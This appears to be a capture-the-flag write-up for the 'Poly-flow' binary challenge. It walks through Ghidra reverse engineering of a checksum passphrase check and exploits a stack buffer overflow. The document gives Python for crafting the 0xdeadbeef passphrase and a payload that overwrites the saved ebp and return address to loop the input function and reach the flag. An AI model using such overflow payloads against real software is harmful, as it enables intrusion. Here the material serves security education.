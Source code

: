 # Poly-flow

## Analysis

### Opening in Ghidra

![Main function](./images/ghidra_main.png?raw=true "Main")

Checking the main function we can see the executable takes an passphrase using `scanf` that is passed to the check function and its returned value is checked. If the returned value is not 0 then input function is called otherwise program is stopped with an incorrect message.

![Check function](./images/ghidra_check.png?raw=true "Check")

Analyzing check function it takes a string as input with the length of 16 and it splits it into 4 pieces of 4 bytes and adds them together and then it checks if the sum is equal to 0xdeadbeef if it's equal it return 1 else it returns 0 in all other cases.

![Input function](./images/ghidra_input.png?raw=true "Input")

The input function is where there is buffer overflow with changing the the return address.
It is a small function with a local variable (`local_1c`) and an "if condition" it checks if the variable `i` equal 0x5, if its equals we get our flag otherwise the value of `i` is incremented by one and then there is a call to fgets on local_1c variable but the length used is 0x24(36) but the length of `local_1c` variable is only 20 hence it is our exploit we can abuse this.

## Part One: Passing the check

### Reverse engineering the string

We can divide the number into 4 4-byte integer numbers and them make a string out of those pieces and concat them to get the required string

#### Code

```python
>>> n = 0xdeadbeef
>>> a = 0xdeadbeef // 4
>>> n % 4
3
>>> a = 0xdeadbeef // 4 + 1
>>> b = 0xdeadbeef // 4
>>> 
>>> a * 3 + b == n
True
>>> a_str = a.to_bytes(4, 'little')
>>> b_str = b.to_bytes(4, 'little')
>>> inp = a_str * 3 + b_str
>>> print(inp)
b'\xbco\xab7\xbco\xab7\xbco\xab7\xbbo\xab7'
>>> len(inp)
16
>>> 
```

## Part Two: Buffer-Overflow

### Changing return address

We have to overflow `local_1c` variable and such that input function is called again (5 times since we have to change the value of variable I to reach 5 we can confirm in gdb that it starts with 0)

### doing it in the gdb

setting the breakpoint at input function and analysis from the gdb we infer for input function

```python
addr_of_input_function = 0x8049860
ebp = 0xffffcca8
```

Providing the long recognizable string to program in gdb

![Input function](./images/input.png?raw=true "GDB_Input")

In this image the value of ebp is written to 0x67676767 which is `gggg` so the padding will be from a to f and then ebp and address of input function can come.

we will repeat 5 times and at the sixth time value of `i` will be changed to 5 and we will get the flag.

final input will be => "aaaabbbbccccddddeeeeffff + ebp + addr_of_input_function\n" * 5

#### Code for buffer-overflow

```python
padd = b"aaaabbbbccccddddeeeeffff"

ebp = 0xffffcca8
ebp = ebp.to_bytes(4, 'little')

addr = 0x8049860
addr = addr.to_bytes(4, 'little')

print(b"\n".join([padd + ebp + addr for i in range(5)]))
```

## [Complete exploit](./exploit.py "Exploit")
